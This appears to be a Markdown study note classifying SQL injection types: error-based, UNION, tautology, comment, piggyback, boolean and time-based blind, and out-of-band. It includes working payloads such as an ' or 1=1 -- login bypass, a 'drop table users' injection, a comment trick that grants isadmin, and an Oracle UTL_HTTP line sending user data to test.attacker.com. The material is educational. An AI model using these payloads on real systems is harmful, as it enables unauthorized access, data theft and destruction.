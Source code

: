 # SQL injection types

- Types include
  - [In-band SQL injection](#in-band-sql-injection)
  - [Blind SQL injection](#blind-sql-injection)
  - [Out-of-band SQL injection](#out-of-band-sql-injection)
- Other classifications sometimes include
  - **Database management system-specific SQL injection**
    - Using specific SQL statements to certain database engine.
  - **Compounded SQL injection**
    - Combining SQL injection with other web application attacks such as • insufficient authentication • DDoS attacks • DNS hijacking • XSS.
    - E.g. DDoSing through `http://cloudarchitecture.io/azure?id=2 and WAITFOR DELAY '0:0:50'`
  - **Second-order SQL injection**
    - When user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way.
    - E.g. during login user name and password is retrieved as `WHERE username="$username" and password="$password"`, one could then set a password as `"); drop table users;` to delete the table and it will only executed during user login.

## In-band SQL injection

- Also known as • **classic SQL injection** • **in-band SQLi** • **classic SQLi**.
- Attacker uses one channel to inject malicious queries and retrieve results.

### Error-based SQL injection

- Causing database to throw errors and in such a way to identify the vulnerabilities
- One of the most common injections
- Examples
  - Through parameter tampering in GET/POST requests
    - E.g. adding `′` in the end: `http://testphp.vulnweb.com/listproducts.php?cat=1′`
      - Shows error: `Error: Check the manual that corresponds to your MySQL server version. Invalid syntax "' at line 1 Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74`
      - Reveals file names, database type etc.
    - Can use e.g. [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite)
  - Converting anything to integer: `or 1=convert(int, (select * from tablename))`
    - `Syntax error converting the nvarchar value '<sql execution result>'`

### System stored procedure

- **Stored procedure**: Precompiled function-like SQL statements supported by many DBMS.
- Injecting malicious queries into stored procedures
- E.g. `@vname` is vulnerable to injection in following procedure:

  ```sql
    CREATE PROCEDURE getDescription
      @vname VARCHAR(50)
    AS
      EXEC('SELECT description FROM products WHERE name = '''+@vname+ '''')
    RETURN
  ```

### Illegal/Logically incorrect query

- Goal is to gather information about the type and structure of the back-end database.
- Considered as a preliminary step for further attacks.
- Attacker takes advantage of error messages sent by the database on incorrect queries.
- Often exposes the names of tables and columns.
- E.g. `SELECT*FROM table_nameWHERE id=@id"` (missing whitespaces) would cause incorrect syntax error.

### UNION SQL injection

- 📝 Using the `UNION` operator to inject a malicious query.
- Allows appending results to the original query.
- E.g. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

### Tautology

- Manipulating the `WHERE` operator in the query to always have a `true` value
- 📝 Utilizes `OR` operator e.g. by appending `OR 1 = 1`
- E.g. `select * from user_details where userid = 'abcd' and password = 'anything' or 'x'='x'`
- 🤗 In logic, a tautology is a formula which is true in every possible interpretation
  - E.g. either it will rain tomorrow, or it won't rain

### Comment SQL injection

#### End-of line comment

- Also known as • **terminating query** • **single-line comment** • ***end-of-line comment** • **end of line comment**.
- 📝 Usually done by adding `--` at the end of the injected query
  - `--` (two dashes): comment out the rest so SQL engine ignores the rest of the query
- E.g. by appending `' or 1 = 1 --` in the end of the query would ignore the password check
  - `select * from users where name='injection starts here' or 1=1 --' AND password='pwd'`
  - Basically tells the server if 1 = 1 (always true) to allow the login.
  - Double dash (--) tells the server to ignore the rest of the query

#### Inline comments

- Using C-style comments to eliminate a part of the query.
- Requires attacker having a good idea of how the input is integrated.
- E.g.
  - Query is

    ```sql
      $sql = "INSERT INTO members (username, isadmin, password) VALUES ('".$username."', 0, '".$password."')"
    ```

  - Attackers input include `username` and `password`
  - Attacker enters following values to avoid password check:
    - `attacker', 1, /*`
    - `*/'pwd`
  - It then generate:

    ```sql
      INSERT INTO members (username, isadmin, password) VALUES ('attacker', 1, /*', 0, '*/'pwd')
    ```

### Piggyback query

- Also known as • **piggybacked query** • **piggy-backed query** • **statement injection**
- Appending malicious query to the end of the original one.
- Common way is to append the query delimiter (`;`)
  - E.g. `normal SQL statement + ";" + INSERT (or UPDATE, DELETE, DROP) <rest of injected query>`

## Blind SQL injection

- Also known as • **blind SQLi** • **inferential SQL injection** • **inferential SQLi** • **inference SQL injection** • **inference SQLi**
- Attacker is unable to see the direct results of the injected queries
  - instead attacker observes web applications response and behavior.
- As database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions.
- Allows remote database fingerprinting to e.g. know which type of database is in use
- Can be automated using e.g.
  - [Absinthe :: Automated Blind SQL Injection](https://github.com/cameronhotchkies/Absinthe)
  - [SQLBrute](https://securiteam.com/tools/5IP0L20I0E), multi threaded blind SQL injection bruteforcer in Python
  - [bsqlbf](https://code.google.com/archive/p/bsqlbf-v2/), a blind SQL injection tool in Perl

### Boolean-based blind SQL

- Also called **content-based blind SQL**
- Attacker forms queries to return `true` or `false`
- Depends on changing HTTP results depending on SQL results for each condition.
- Allows enumerating the database character by character (slow)
- E.g.
  - URL: `http://newspaper.com/items.php?id=2`
  - Query in back-end: `SELECT title, description, body FROM items WHERE ID = 2`
  - Attacker sends `http://newspaper.com/items.php?id=2 and 1=2` to make it return `false`
  - Attacker inspects if application shows a page or with which status code

### Time-based SQL injection

- Also called • **time delay SQL injection** • **double blind SQL injection** • **2blind SQL injection**
- 📝 Using time delay to evaluate the result (true or false) of the malicious query
- Allows for testing of existing vulnerabilities.
- Uses commands like `waitfor`, `sleep`, `benchmark`
  - Helps with database fingerprinting as MySQL, MSSQL, and Oracle have different functions to get current time.
  - E.g. `http://www.site.com/vulnerable.php?id=1' waitfor delay '00:00:10'--`
- Allows enumerating each character (very slow)
  - E.g. if database name starts with A, wait 10 seconds
  - Can use character comparison, regex or `LIKE` in Microsoft SQL.
- Time consuming, but there are automated tools such as [`sqlmap`](http://sqlmap.org/)

#### Heavy query

- Injecting queries that takes time to test
- Useful when time functions such as `waitfor` are disabled by administrator
- E.g. `SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C`
  - Can inject something like: `1 AND 1>(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C)`

## Out-of-band SQL injection

- Also known as • **OOB injection** • **OOB SQLi**
- Exhilarate data through outbound channel
  - E.g. e-mail sending or file writing/reading functionalities
- Difficult as it depends on target having
  - Supported databases that can initiate outbound DNS or HTTP requests
  - Lack of input validation
  - Network access to the database server
  - Privileges execute the necessary function
- E.g. `||UTL_HTTP.request('http://test.attacker.com/'||(SELECT user FROM users))`
